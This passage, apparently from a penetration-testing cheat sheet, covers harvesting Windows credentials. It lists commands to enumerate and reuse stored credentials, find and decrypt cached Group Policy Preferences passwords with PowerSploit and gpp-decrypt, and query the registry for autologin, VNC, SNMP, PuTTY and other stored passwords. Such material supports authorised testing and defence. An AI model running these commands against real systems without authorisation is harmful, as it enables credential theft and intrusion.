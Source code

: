 ```
# List stored generic credentials
cmdkey /list
# Require a GUI interface
rundll32.exe keymgr.dll,KRShowKeyMgr

runas /savecred /user:<DOMAIN | WORKGROUP>\<USERNAME> <EXE>
```

###### Cached GPP passwords

GPP can be cached locally and may contain encrypted passwords that can be
decrypted using the Microsoft public AES key.

The `Get-CachedGPPPassword` cmdlet, of the `PowerSploit`'s `PowerUp` script,
can be used to automatically retrieve the cached GPP XML files and extract the
present passwords.

```
Get-CachedGPPPassword
```

The following commands can be used to conduct the search manually:

```
$AllUsers = $Env:ALLUSERSPROFILE
# If $AllUsers do not contains "ProgramData"
$AllUsers = "$AllUsers\Application Data"

Get-ChildItem -Path $AllUsers -Recurse -Include 'Groups.xml','Services.xml','Scheduledtasks.xml',
'DataSources.xml','Printers.xml','Drives.xml' -Force -ErrorAction SilentlyContinue | Select-String -pattern "cpassword"
```

The Ruby `gpp-password` script can be used to decrypt a GPP password:

```
gpp-decrypt <ENC_PASSWORD>
```

###### Clear text password in registry

Passwords may also be stored in Windows registry:

```
# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
reg query HKLM /f pass /t REG_SZ /s
reg query HKCU /f pass /t REG_SZ /s
```

